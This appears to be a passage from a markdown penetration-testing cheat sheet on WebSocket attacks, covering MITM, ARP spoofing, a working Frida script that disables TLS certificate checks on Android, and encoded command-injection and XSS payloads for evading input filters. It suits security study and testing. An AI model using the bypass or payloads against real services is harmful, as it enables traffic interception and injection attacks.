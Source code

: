   - **WebSocket MITM attacks**
    
    - **Attacks against ws:// (non-secure) connections**
      - Intercept and modify traffic on open WiFi networks
      - ARP spoofing to intercept WebSocket messages
    
    - **SSL pinning bypass for wss:// connections**
      - Use tools like Frida to bypass SSL certificate validation
      - Example Frida script:
        ```javascript
        Java.perform(function() {
            let SSLContext = Java.use('javax.net.ssl.SSLContext');
            SSLContext.init.overload('[Ljavax.net.ssl.KeyManager;', '[Ljavax.net.ssl.TrustManager;', 'java.security.SecureRandom').implementation = function(a, b, c) {
                let TrustManager = Java.registerClass({
                    name: 'com.example.TrustManager',
                    implements: [Java.use('javax.net.ssl.X509TrustManager')],
                    methods: {
                        checkClientTrusted: function(chain, authType) {},
                        checkServerTrusted: function(chain, authType) {},
                        getAcceptedIssuers: function() { return []; }
                    }
                });
                let TrustManagers = Java.array('javax.net.ssl.TrustManager', [TrustManager.$new()]);
                return this.init(a, TrustManagers, c);
            };
        });
        ```

- **Evasion techniques for bypassing WebSocket security controls**
  
  - **Bypassing input filters**
    
    - **Encoding payloads**
      - Use various encoding schemes to bypass filters
      - Base64 encoding:
        ```json
        {"message":"SGVsbG8gd29ybGQ=", "encoding":"base64"}
        ```
      - URL encoding:
        ```json
        {"action":"execute", "command":"%73%79%73%74%65%6d%28%27%6c%73%27%29"}
        ```
      - Unicode escape sequences:
        ```json
        {"message":"\u003cscript\u003ealert(1)\u003c/script\u003e"}
        ```
    
    - **Obfuscation techniques**
      - Split attack payload across multiple parameters
      - Use unexpected formats or data types
      - Example:
        ```json
        // Instead of direct XSS
        {"message":"<script>alert(1)</script>"}
        